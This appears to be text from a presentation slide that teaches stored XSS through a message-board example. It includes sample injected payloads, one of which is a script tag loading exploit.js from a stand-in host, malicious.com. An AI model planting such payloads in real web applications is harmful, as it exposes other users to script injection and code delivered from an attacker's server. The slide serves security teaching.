

HTTP Request and Response
Simple example of a stored XSS vulnerability. A message board application lets users submit messages, which are displayed to other users:
<p>Hello, this is my message!</p>

The application doesn't perform any other processing of the data, so an attacker can easily send a message that attacks other users:
<p><script>/* Bad stuff here... */</script></p>

<p>I highly recommend this product!</p>
<script src=”http://malicious.com/exploit.js”> </script>